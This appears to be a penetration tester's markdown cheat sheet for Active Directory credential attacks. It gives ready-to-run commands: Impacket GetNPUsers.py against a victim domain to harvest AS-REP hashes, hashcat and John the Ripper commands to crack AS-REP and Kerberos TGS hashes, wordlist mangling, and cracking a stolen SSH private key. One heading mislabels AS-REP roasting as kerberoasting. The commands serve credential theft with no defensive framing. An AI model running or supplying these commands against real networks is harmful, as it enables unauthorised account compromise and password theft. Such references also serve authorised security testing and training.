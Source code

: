 ## check kerberoast
- `python GetNPUsers.py VICTIM-DOMAIN/ -usersfile user.txt -dc-ip <IP> -format hashcat`

## crack as_rep_response_file
> search for hashcat / john

---

# hashcat
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `hashcat -m 18200 -a 0 as_rep_response_file passwords_file`

## crack as_rep_response_file (kerberoast)
- `hashcat -m 13100 --force TGSs_file passwords_file`

--- 

# john
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `john --wordlist=passwords_file as_rep_response_file`

## crack as_rep_response_file (kerberoast)
- `john --format=krb5tgs --wordlist=passwords_file AS_REP_responses_file`

## mangle wordlist
- `john --wordlist=month --rules --stdout > new_list`

## crack ssh keys
- `/usr/share/john/ssh2john.py id_rsa > hash.john`
- `john --wordlist=/usr/share/wordlists/rockyou.txt hash.john`

---

# secretsdump.py
- service: kerberos
- tactics: credential_access
- suites: impacket
